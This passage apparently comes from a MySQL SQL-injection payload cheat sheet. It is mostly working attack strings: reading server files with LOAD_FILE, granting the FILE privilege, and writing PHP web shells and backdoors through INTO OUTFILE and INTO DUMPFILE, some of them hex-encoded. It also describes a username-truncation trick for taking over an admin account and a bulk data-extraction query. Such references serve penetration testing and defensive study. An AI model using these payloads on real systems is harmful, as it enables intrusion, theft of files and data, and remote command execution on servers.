 ```sql
UNION ALL SELECT TO_base64(LOAD_FILE('/var/www/html/index.php'));
```

If you are `root` on the database, you can re-enable the `LOAD_FILE` using the following query

```sql
GRANT FILE ON *.* TO 'root'@'localhost'; FLUSH PRIVILEGES;#
```

## MYSQL Write a shell

### Into outfile method

```sql
[...] UNION SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"
[...] UNION SELECT '' INTO OUTFILE '/var/www/html/x.php' FIELDS TERMINATED BY '<?php phpinfo();?>'
[...] UNION SELECT 1,2,3,4,5,0x3c3f70687020706870696e666f28293b203f3e into outfile 'C:\\wamp\\www\\pwnd.php'-- -
[...] union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'
```

### Into dumpfile method

```sql
[...] UNION SELECT 0xPHP_PAYLOAD_IN_HEX, NULL, NULL INTO DUMPFILE 'C:/Program Files/EasyPHP-12.1/www/shell.php'
[...] UNION SELECT 0x3c3f7068702073797374656d28245f4745545b2763275d293b203f3e INTO DUMPFILE '/var/www/html/images/shell.php';
```

## MYSQL Truncation

In MYSQL "`admin `" and "`admin`" are the same. If the username column in the database has a character-limit the rest of the characters are truncated. So if the database has a column-limit of 20 characters and we input a string with 21 characters the last 1 character will be removed.

```sql
`username` varchar(20) not null
```

Payload: `username = "admin               a"`

## MYSQL Fast Exploitation

Requirement: `MySQL >= 5.7.22`

Use `json_arrayagg()` instead of `group_concat()` which allows less symbols to be displayed
* group_concat() = 1024 symbols
* json_arrayagg() > 16,000,000 symbols

```sql
SELECT json_arrayagg(concat_ws(0x3a,table_schema,table_name)) from INFORMATION_SCHEMA.TABLES;
```
